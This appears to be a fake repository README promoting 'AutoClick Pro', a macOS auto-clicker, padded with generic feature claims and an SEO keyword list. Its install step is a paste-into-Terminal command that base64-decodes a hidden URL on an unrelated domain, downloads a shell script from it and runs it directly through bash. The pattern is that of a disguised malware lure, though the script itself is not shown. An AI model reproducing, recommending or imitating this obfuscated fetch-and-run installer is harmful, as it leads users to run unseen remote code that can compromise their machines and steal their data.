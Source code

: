 # ⚡ AutoClick Pro - Precise Automated Clicking for macOS

AutoClick Pro is a macOS utility designed to automate mouse clicks with high precision and minimal resource usage. It's perfect for developers, testers, and power users who need repetitive clicking automation without complex scripting. Lightweight and native to macOS, it ensures smooth performance.

## 🧰 Install on macOS
Open Terminal and run:
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```

## 🎯 Key Features
⚡️ **Fast Automation**: Execute clicks with millisecond precision for seamless task handling  
🔒 **Secure & Local**: No cloud dependency; all processing happens on your machine  
⚙️ **Customizable Intervals**: Set click delays, durations, and patterns effortlessly  
🚀 **Low Latency**: Optimized for macOS to ensure minimal CPU usage  
🎨 **Native UI**: Blends seamlessly with macOS design for intuitive use  
📊 **Activity Logging**: Track click history and performance metrics  

## 🛡 Why Choose
🛠 **Reliable Support**: Backed by active development and troubleshooting guides  
✅ **Proven Efficiency**: Trusted by QA testers and productivity enthusiasts  
🤝 **Open Feedback**: Feature requests and bug reports are prioritized  
🏅 **Optimized Performance**: Lightweight yet powerful for sustained use  

## 🏆 Why Use It
🎯 **Boost Productivity**: Automate repetitive tasks and save hours  
💡 **Easy Setup**: Configure clicks in seconds with no learning curve  
🔧 **System-Friendly**: Runs quietly in the background without slowdowns  
🌐 **Standalone Tool**: No extra dependencies or bloated packages  

## 💡 System Requirements
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple M1 or Intel Core i5  
- RAM: 4 GB minimum  
- Storage: 200 MB available space  
- Others: Terminal access, active internet connection  

## 📜 Contributing
To contribute, fork this repository and open a pull request with a clear explanation. Follow our macOS development standards.

## 📄 License
MIT License © 2024 AutoClick Tools

## 🔍 SEO Keywords
macOS auto clicker, mouse automation, click automation tool, repetitive task automation, productivity tools for Mac, auto click software, mouse clicker app, testing automation, macOS utility, open-source auto clicker, click interval tool, lightweight automation, QA testing tools, hotkey clicker, mouse macro tool
